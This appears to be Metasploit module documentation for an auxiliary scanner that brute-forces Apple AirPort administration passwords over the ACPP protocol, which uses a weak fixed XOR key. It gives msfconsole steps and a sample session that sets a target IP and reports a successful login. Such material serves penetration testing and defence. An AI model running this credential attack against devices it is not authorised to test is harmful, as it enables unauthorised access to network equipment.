 ## Vulnerable Application

ACPP is an undocumented and proprietary Apple protocol found in Airport products which protects the credentials used to administer the device. This module attempts exploit a weak encryption mechanism (fixed XOR key) by brute forcing the password via a dictionary attack or specific password.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/acpp/login)

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/acpp/login`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

### Apple AirPort Extreme 802.11g

  ```
  msf > use auxiliary/scanner/acpp/login
  msf auxiliary(scanner/acpp/login) > show options
  msf auxiliary(scanner/acpp/login) > set RHOSTS 1.1.1.1
      RHOSTS => 1.1.1.1
  msf auxiliary(scanner/acpp/login) > set PASSWORD myPassword
      PASSWORD => myPassword
  msf auxiliary(scanner/acpp/login) > run
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - Starting ACPP login sweep
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - ACPP Login Successful: myPassword
  ```
